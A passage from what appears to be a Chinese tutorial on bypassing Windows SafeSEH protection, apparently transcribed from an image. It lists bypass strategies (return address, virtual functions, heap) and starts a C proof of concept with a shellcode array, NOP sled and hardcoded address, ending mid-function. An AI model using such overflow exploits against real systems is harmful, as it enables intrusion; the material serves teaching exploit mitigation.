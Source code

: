 ## **攻击返回地址绕过SafeSEH**

如果一个程序启用了SafeSEH但是未启用GS，或者被攻击的函数没有GS保护，那么直接攻击函数的返回地址即可。

## **利用虚函数绕过SafeSEH**

思路和前面突破GS一样，在虚函数劫持程序流程时不涉及任何异常处理。

## **从堆中绕过SafeSEH**

就是利用上面可行性的第四点，在堆中布置shellcode并把SHE的指针指向堆就可以了。相当于只是一次普通的S.E.H攻击。

	#include <string.h>

	#include <stdlib.h>

	char shellcode[]=

	"xFCx68x6Ax0Ax38x1Ex68x63x89xD1x4Fx68x32x74x91x0C"

	"x8BxF4x8Dx7ExF4x33xDBxB7x04x2BxE3x66xBBx33x32x53"

	"x68x75x73x65x72x54x33xD2x64x8Bx5Ax30x8Bx4Bx0Cx8B"

	"x49x1Cx8Bx09x8Bx69x08xADx3Dx6Ax0Ax38x1Ex75x05x95"

	"xFFx57xF8x95x60x8Bx45x3Cx8Bx4Cx05x78x03xCDx8Bx59"

	"x20x03xDDx33xFFx47x8Bx34xBBx03xF5x99x0FxBEx06x3A"

	"xC4x74x08xC1xCAx07x03xD0x46xEBxF1x3Bx54x24x1Cx75"

	"xE4x8Bx59x24x03xDDx66x8Bx3Cx7Bx8Bx59x1Cx03xDDx03"

	"x2CxBBx95x5FxABx57x61x3Dx6Ax0Ax38x1Ex75xA9x33xDB"

	"x53x68x77x65x73x74x68x66x61x69x6Cx8BxC4x53x50x50"

	"x53xFFx57xFCx53xFFx57xF8x90x90x90x90"

	"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

	"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

	"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

	"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

	"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

	"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

	"xB0x04x41x00" //shellcode地址

	;

	void test(char * str)

	{

		char dest[200];

